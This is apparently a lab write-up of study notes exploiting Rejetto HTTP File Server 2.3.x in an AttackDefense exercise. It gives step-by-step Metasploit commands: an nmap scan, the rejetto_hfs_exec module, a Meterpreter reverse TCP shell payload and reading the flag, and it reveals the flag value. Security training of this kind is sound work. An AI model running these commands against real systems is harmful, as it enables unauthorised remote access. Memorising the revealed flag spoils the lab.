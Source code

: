 # 🔬HFS - MSF Exploit

## Lab 1

>  🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
>  - Target IP: `10.2.19.226`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.19.226
setg RHOST 10.2.19.226
workspace -a HFS
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 10.2.19.226
```

![db_nmap -sS -sV -O 10.2.19.226](3-metasploitassets/image-20230416104826584.png)

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
info
# Description:
#   Rejetto HttpFileServer (HFS) is vulnerable to remote command 
#   execution attack due to a poor regex in the file ParserLib.pas. This 
#   module exploits the HFS scripting commands by using '%00' to bypass 
#   the filtering. This module has been tested successfully on HFS 2.3b 
#   over Windows XP SP3, Windows 7 SP1 and Windows 8.
run
```

```bash
# Type of payload can be changed base on the target O.S. architecture
set payload windows/x64/meterpreter/reverse_tcp

# Always check for the LHOST and LPORT values
run
```

```bash
shell
cd /
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>



`f74c8347798f4082daf4b4570dba094a`

![](3-metasploitassets/image-20230416110124037.png)

</details>

------

